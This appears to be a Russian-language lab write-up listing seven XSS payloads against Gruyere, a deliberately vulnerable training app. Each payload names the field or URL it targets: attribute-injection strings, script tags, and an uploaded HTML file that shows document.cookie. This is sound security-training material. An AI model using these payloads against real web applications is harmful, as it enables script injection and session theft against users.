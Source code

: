# Payloads для gruyere
## Payload 1
На странице редактирования профиля в поле ввода Icon можно вставить строку `'' onerror="alert(23)"`
Тип: Stored XSS
## Payload 2
На странице редактирования профиля в поле ввода homepage можно вставить строку `' onmouseover="alert(32)"`
Тип: Stored XSS
## Payload 3
На странице редактирования профиля в поле ввода profile color можно вставить строку `; font-size:1000px;"' onmouseover="alert('xss')"`
Тип: Stored XSS
## Payload 4
На главной странице в конец url можно вставить `<script>alert(41)</script>` для вызова кастомного скрипта
Тип: Reflected XSS
## Payload 5
На странице создания нового сниппета ввести в поле ввода `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`
Тип: Stored XSS
## Payload 6
На странице редактирования профиля ввести в поле ввода private snippet `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`
Тип: Stored XSS
## Payload 7
На странице Upload вставить в поле ввода файл *.html, содержащий в себе `<script>alert(document.cookie)</script>`
Тип: Stored XSS
...
